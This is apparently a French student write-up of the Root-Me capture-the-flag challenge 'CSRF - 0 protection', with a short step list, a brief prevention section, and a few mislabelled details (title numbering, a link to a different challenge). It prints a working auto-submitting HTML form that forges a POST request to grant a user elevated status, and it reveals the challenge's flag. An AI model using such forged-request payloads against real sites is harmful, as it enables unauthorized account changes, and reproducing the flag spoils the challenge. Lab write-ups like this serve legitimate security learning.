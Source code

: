 ```yaml
---
title: "TP 3 : rootme 10"
excerpt: "CSRF - 0 protection"
coverImage: "https://www.tice-education.fr/images/stories/img/rootmelogo.jpg"
date: "2025-07-01T12:05:00.000Z"
ogImage:
    url: "https://www.tice-education.fr/images/stories/img/rootmelogo.jpg"
---
```


# TP 1 : CSRF - 0 protection

## Informations générales

-   **Nom du challenge** : CSRF - 0 protection
-   **Difficulté** : 3
-   **URL** : https://www.root-me.org/fr/Challenges/Web-Client/Javascript-Authentification

---

## 1. Compréhension du challenge

### Objectif : Trouver cookie admin

### Contexte technique : forum avec form sensible au xss

---

## 2. Étapes de résolution

### Étape 1 : créer un compte

### Étape 2 : aller dans le profil puis contact

### Etape 3 : utiliser la faille XSS de la page de contact pour effectuer une redirection javascript et une validation du formulaire POST

```html
<form
    name="test"
    method="POST"
    action="http://challenge01.root-me.org/web-client/ch22/?action=profile"
>
    <input type="hidden" name="username" value="armand" />
    <input type="hidden" name="status" value="on" />
</form>
<script>
    document.test.submit();
</script>
```

### Etape 4 : Acceder à la page private en tant qu'admin et recuperer le flag

---

## 3. Capture ou extrait de code

![1](/assets/blog/rootme/step11-1.png)

![2](/assets/blog/rootme/step11-2.png)

![3](/assets/blog/rootme/step11-3.png)

---

## 4. Explication technique

### Vulnérabilité exploitée : Manque de prrotection XSS sur les champs

---

## 5. Résultat : Csrf_Fr33style-L3v3l1!

---

## 6. Prévention / bonnes pratiques :

### Proteger les input des attaques XSS
